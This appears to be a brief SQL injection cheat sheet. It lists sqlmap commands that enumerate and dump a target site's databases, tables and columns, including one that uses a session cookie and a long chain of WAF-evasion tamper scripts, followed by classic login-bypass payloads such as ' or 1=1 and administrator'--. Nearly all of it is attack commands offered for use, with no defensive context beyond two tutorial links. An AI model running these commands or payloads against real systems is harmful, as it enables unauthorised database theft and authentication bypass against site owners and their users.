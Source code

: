 # SQLMAP

1. yoursite.com/news.php?id=1
2. python2 sqlmap.py "yoursite.com/news.php?id=1" --dbs
3. python2 sqlmap.py "yoursite.com/news.php?id=1" --tables -D yoursite
4. python2 sqlmap.py "yoursite.com/news.php?id=1" --columns -D namadatabase -T namatabel
5. python2 sqlmap.py "yoursite.com/news.php?id=1" --dump -D namadatabase -T namatabel
6. python2 sqlmap.py "yoursite.com/news.php?id=1" --level=5 --risk=3 --dbs
7. python2 sqlmap.py "yoursite.com/news.php?id=1" --cookie='PHPSESSID=gsi3k0dblqj5tj8arcptqs73bi' --dbs --batch --dump --tables --columns --tamper=between,bluecoat,equaltolike,greatest,ifnull2ifisnull,modsecurityzeroversioned,multiplespaces,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --level 5 --dbms=mysql

# SQL Injection basics
1. '+OR+1=1-- (microsoft)
2. administrator'--
3. ' or 1=1 limit 1 -- -+
4. ' or 1=1 LIMIT 1 OFFSET 2 -- -+

Reference : 
1. https://sangtopihitam.blogspot.com/2020/02/tutorial-install-sqlmap-dan-cara.html
2. https://hackertarget.com/sqlmap-tutorial/
